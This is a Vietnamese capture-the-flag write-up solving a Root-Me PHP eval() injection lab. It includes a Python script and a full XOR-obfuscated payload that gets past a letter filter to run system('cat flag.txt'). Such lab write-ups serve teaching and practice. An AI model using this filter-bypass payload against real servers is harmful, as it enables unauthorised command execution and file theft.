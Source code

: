 # Code Injection
Bài này em sẽ dựng lại 1 bài lab trên root-me về hàm `eval()` trong PHP

`eval()` là hàm có thể thực thi được code PHP vì vậy dùng nó không an toàn có thể nguy hiển khi kẻ tấn công có thể inject mã độc vào và app sẽ thực thi nó.

`Description: The flag is in flag.txt file.`
<br><br><br>

Web có nhận vào input và sẽ thực thi mã: 

![image](https://user-images.githubusercontent.com/92881216/233818249-f9b8170f-9830-489e-b6d9-353485eea625.png)

Khi nhập `1+2` và kết quả:

![image](https://user-images.githubusercontent.com/92881216/233818284-017a457f-329b-495b-9095-e1e9a9fe56ee.png)

Hướng khai thắc ở đây là sẽ truyền vào hàm độc hại có thể thực thi câu lệnh hệ thống như: `system()` hoặc `exec()`,... để đọc `flag.txt`

Tuy nhiên web không chấp nhận đầu vào là ký tự alphabet và ` : `(preg_match('/[a-zA-Z`]/', $_GET['input']))`.

Để giải bài này có 2 phương pháp ở <a href="https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/" >đây</a>

Em sẽ làm cách 1 vì nó đơn giản và ngắn gọn hơn.

Đó là sử dụng `XOR` từ các ký tự khác để tạo ra chữ cái.

Ví dụ: 

'(' XOR ']' được `s` từ đó sẽ xây dựng ra payload: `system('cat flag.txt')`

`Script: `
```
LETTERS="!@$%()[]_^-={}.|><,;"
text="system('cat flag.txt')"

for n in text:
    for i in LETTERS:
        for j in LETTERS:
            if ord(i) ^ ord(j) == ord(n):
                print(f"('{i}'^'{j}')={n}")
                break
            if n=='(' or n==')' or n=="'" or n==".":
                print(f"{n}={n}")
                break
        else:
            continue
        break
```
Kết quả:

![image](https://user-images.githubusercontent.com/92881216/233818827-4c47e422-f934-4d6a-a60a-bdd0a1e99cc4.png)

Tuy nhiên khi nhập vào input nó sẽ chỉ in ra dạng text. Vì vậy ta cần tìm cách gọi hàm để nó thực thi luôn. Một cách gọi làm ở đây sẽ là `(function)()`

Ghép các payload trên thành payload hoàn chỉnh:
```
(('('^'[').('$'^']').('('^'[').(')'^']').('@'^'%').('@'^'-'))((']'^'>').('!'^'@').(')'^']').('['^'{').('['^'=').('@'^',').('!'^'@').('['^'<').'.'.(')'^']').('%'^']').(')'^']'))
```
Payload ứng với `system(cat flag.txt)`

Kết quả: 

![image](https://user-images.githubusercontent.com/92881216/233818926-e64e3b6e-b1ac-4344-8ed3-47f08a71706c.png)


